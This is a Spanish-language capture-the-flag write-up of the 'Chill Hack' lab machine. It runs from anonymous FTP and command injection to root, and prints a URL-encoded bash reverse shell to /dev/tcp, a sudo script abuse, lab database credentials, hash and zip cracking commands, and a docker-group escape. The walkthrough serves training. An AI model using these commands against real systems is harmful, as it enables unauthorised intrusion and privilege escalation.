# Chill Hack



Accedemos al ftp -> está habilitado el login anonymous
`ftp 10.10.3.17`
`get note.txt`
En la nota se dice ->
*Anurodh told me that there is some filtering on strings being put in the command -- Apaar*

Con gobuster encontramos un */secret* donde podemos ejecutar comandos



Probamos con lo que se dice en la nota
`-- Apaar`
Aparentemente no hace nada, vamos a probar a interceptar la respuesta con burp
Vemos esta respuesta en el repeater:



Si vamos a la dirección que se encuentra (precedida de /10.10.3.17/secret/)
*http://10.10.3.17/secret/images/blue_boy_typing_nothought.gif*

La descargo a ver si hay info en los metadatos:
Nada

Resulta que -- Apaar es el usuario que ha dejado la nota, y Anurodh otro xd

Probamos entonces comandos normales en el input
Obtenemos una RCE



Vemos www-data

Si ejecutamos un cat /etc/passwd vemos que nos devuelve "Are You a Hacker?" Por lo que habrá algún tipo de comprobación.
La cadena se URLencodea en la petición por lo que para pasarnos una revshgell

Usamos cyberchef para URLencodear la revbash:



`/bin/bash -c 'bash -i >& /dev/tcp/10.8.63.150/4444 0>&1'`
a
*%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E8%2E63%2E150%2F4444%200%3E%261%27*

**www-data**

## Escalada

Hay 4 escritorios en home
`anurodh  apaar  aurick  ubuntu`

*(apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh*
`sudo -u apaar ./home/apaar/.helpline.sh`
Introducimos `/bin/bash` en el mensaje ya que el input se pasa como ejecutable por $, en este caso $`msg`



---> Cambio ip 10.10.111.143

En */var/www/files/index.php* encontramos credenciales para el user mysql



*dbname=webportal*
*host=localhost*
*root*
*!@m+her00+@db*

`mysql -h localhost -u root -p`
**mysql**



Anurodh -> Aurick -> 7e53614ced3640d5de23f111806cc4fd
32 caracteres -> md5 posiblemente
Con john:
`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt Aurick_hash`
**masterpassword**
ó
Con *crackstation.net*



Buscamos en los files de la web:
Nos descargamos el hacker-with-laptop_23-2147985341.jpg
En máquina vulnerada:
`python3 -m http.server`
En nuestro kali
`wget http://10.10.111.143:8000/hacker-with-laptop_23-2147985341.jpg`

`steghide extract -sf hacker-with-laptop_23-2147985341.jpg`
Encontramos un ***backup.zip***
`unzip backup.zip`
nos pide una contraseña:



Intentamos meter una de las 3 contraseñas pero no van
Craqueamos por fuerza bruta con ***fcrackzip***
`fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' backup.zip`



**pass1word**

Encontramos un ***source_code.php***



IWQwbnRLbjB3bVlwQHNzdzByZA==
En base64 Decode
***!d0ntKn0wmYp@ssw0rd***

`su anurodh` --> ***!d0ntKn0wmYp@ssw0rd***
**anurodh**

si hacemos `id`



Vemos que perteece al grupo de docker aparte de al de su propio usuario. Podemos conseguir una shell en el usuario docker -> GTFOBins -> Docker -> **SHELL**
`sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
**root**
